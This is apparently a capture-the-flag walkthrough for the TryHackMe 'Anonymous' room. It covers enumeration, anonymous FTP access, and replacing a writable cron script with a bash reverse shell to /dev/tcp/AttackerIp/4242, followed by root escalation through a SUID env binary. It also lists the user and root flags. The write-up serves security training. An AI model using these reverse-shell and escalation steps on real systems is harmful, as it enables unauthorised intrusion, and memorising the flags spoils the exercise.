 # Anonymous *Not the hacking group*

[Room](https://tryhackme.com/room/anonymous)

## Basic Enum

Nmap / rustcan

```shell
IP=VICTIM
rustscan -a $IP | tee rustscan.log
[...]
PORT    STATE SERVICE      REASON
21/tcp  open  ftp          syn-ack ttl 63
22/tcp  open  ssh          syn-ack ttl 63
139/tcp open  netbios-ssn  syn-ack ttl 63
445/tcp open  microsoft-ds syn-ack ttl 63

```

Enumerate the machine.  How many ports are open?
**4**
What service is running on port 21?
**ftp**
What service is running on ports 139 and 445?
**smb**

```shell
smbclient -L $IP

Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

```

There's a share on the user's computer.  What's it called?
**pics**

HINT: >What's that log file doing there?... nc won't work the way you'd expect it to

```shell
ftp $IP

Name: anonymous
Password:
ftp> ls
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
ftp> cd scripts
ftp> ls
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1376 Mar 05 22:23 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.

ftp> mget *
```

```shell
cat clean.sh 
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

```shell
cat removed_files.log 
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

```shell
cat to_do.txt        
I really need to disable the anonymous login...it's really not safe
```
Sure :smile: Let's have fun now and upload this simple script via ftp

```shell
cat clean.sh

#!/bin/bash
bash -i >& /dev/tcp/AttackerIp/4242 0>&1
```

And on our side we just have to wait few seconds:

```shell
rlwrap nc -nlvp 4242            
listening on [any] 4242 ...
namelessone@anonymous:~$ 
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
ls
pics  user.txt
cat user.txt
90d6f992585815ff991e68748c414740
namelessone@anonymous:~$ 

```

usert.txt: **90d6f992585815ff991e68748c414740**

HINT: >This may require you to do some outside research

Cheers ;) so as usual in this case, gtfobins comes in \o/

```shell
find / -perm -u=s 2>/dev/null
[...]
/usr/bin/env
```

So let's try this:

[gtfobins break out from restricted environments](https://gtfobins.github.io/gtfobins/env/#shell)

```shell
env /bin/bash -p
bash-4.4# id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
cat /root/root.txt
4d930091c31a622a7ed10f27999af363
bash-4.4# 

```

root.txt:**4d930091c31a622a7ed10f27999af363**


